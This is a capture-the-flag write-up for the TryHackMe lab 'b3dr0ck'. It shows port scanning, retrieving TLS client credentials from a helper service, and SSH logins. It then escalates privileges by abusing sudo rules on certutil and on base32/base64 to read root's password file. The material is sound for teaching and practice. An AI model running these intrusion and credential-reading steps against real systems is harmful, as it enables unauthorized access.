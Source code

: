```yaml
---
title: TryHackme - b3dr0ck
date: 2022-09-04 22:19:00 +0100
categories: [TryHackMe]
tags: [TryHackMe, socat]
render_with_liquid: false
---
```


# b3dr0ck

# recon

I added the machine’s IP to my `/etc/hosts` as `bedrock.thm` then ran an `nmap` scan to find `ssh` and `http` ports open

```bash
$ sudo nmap bedrock.thm  -v
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9009/tcp open  pichat
```

besides the box had a helpful description

```bash
Barney is setting up the ABC webserver, and trying to use TLS certs to secure connections, but he's having trouble. Here's what we know...

		- He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
		- There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
    - There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
    Can you find all the Easter eggs?

```

so now I know there are 4 open ports on the box

## http

the website had nothing interesting besides this note

```bash
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

so I went to check port 9009, which gave me a private key (the commands were guessed based on what the text was saying) and a certificate to connect to a service running on a higher port

```bash
$ nc bedrock.thm 9009
__          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               
What are you looking for? help
Looks like the secure login service is running on port: 54321

Try connecting using:
socat stdio ssl:MACHINE_IP:54321,cert=<CERT_FILE>,key=<KEY_FILE>,verify=0
What are you looking for? key

Sounds like you forgot your private key. Let's find it for you...
-----BEGIN RSA PRIVATE KEY-----
[REDACTED KEY]
-----END RSA PRIVATE KEY-----
What are you looking for? cert
Sounds like you forgot your certificate. Let's find it for you...
-----BEGIN CERTIFICATE-----
[REDACTED CERTIFICATE]
-----END CERTIFICATE-----

What are you looking for?
```

after saving the key and the cert to a file I connected to port 54321 which gave me the `barney`'s ssh password

```bash
$ socat stdio ssl:bedrock.thm:54321,cert=cert.pem,key=private.key,verify=0

 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
b3dr0ck> user
Current user = 'Barney Rubble' (valid peer certificate)
b3dr0ck> ^C
$ ssh barney@bedrock.thm
barney@bedrock.thm's password: 
barney@b3dr0ck:~$ ls -a
.  ..  barney.txt  .bash_history  .bash_logout  .bashrc  .cache  .hushlogin  .profile  .viminfo
barney@b3dr0ck:~$ cat barney.txt 
THM{RADACTED}
```

# privilege escalation

after getting on the machine I found that user have can run `/usr/bin/certutil` with root, the program take the user first and last name as input, and gives some sort of private key and a certificate

```bash
barney@b3dr0ck:~$ sudo -l
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
barney@b3dr0ck:~$ sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]

barney@b3dr0ck:~$
```

now I needed the full name of another user, viewing the content of `/etc/password` reveled the other name which is `Fred Flintstone`

```bash
barney@b3dr0ck:~$ sudo /usr/bin/certutil fred 'Fred Flintstone'
Generating credentials for user: fred (Fred Flintstone)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[REDACTED PRIVATE KEY]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[REDACTED CERTIFICATE]
-----END CERTIFICATE-----
```

I used the private key and the cert to connect to the service running at port 54321 again, this time to get `fred`'s ssh password

```bash
$ socat stdio ssl:bedrock.thm:54321,cert=fred_cert.pem,key=fred_private.key,verify=0

 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> user
Current user = 'Fred Flintstone' (valid peer certificate)
b3dr0ck> help
Password hint: [REDACTED] (user = 'Fred Flintstone')
b3dr0ck> ^C
$ ssh fred@bedrock.thm 
fred@bedrock.thm's password: 
fred@b3dr0ck:~$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  fred.txt  .hushlogin  .profile  .selected_editor  .ssh  .viminfo
fred@b3dr0ck:~$ cat fred.txt 
THM{REDACTED}
```

this user could run exfiltrate a hash of the `root`'s password with `/usr/bin/base32` 

```bash
fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
fred@b3dr0ck:~$ sudo /usr/bin/base32 /root/pass.txt | base32 -d | base32 -d | base64 -d
[REDACTED]
```

I used crackstation to the clear text password then successfully logged in as root (btw the password wasn’t in rockyou.txt which is a first xd)

```bash
fred@b3dr0ck:~$ su -
Password: 
root@b3dr0ck:~# ls -a
.  ..  .bash_history  .bashrc  pass.txt  .profile  root.txt  snap  .ssh  .viminfo
root@b3dr0ck:~# cat root.txt 
THM{REDACTED}
root@b3dr0ck:~#
```

---
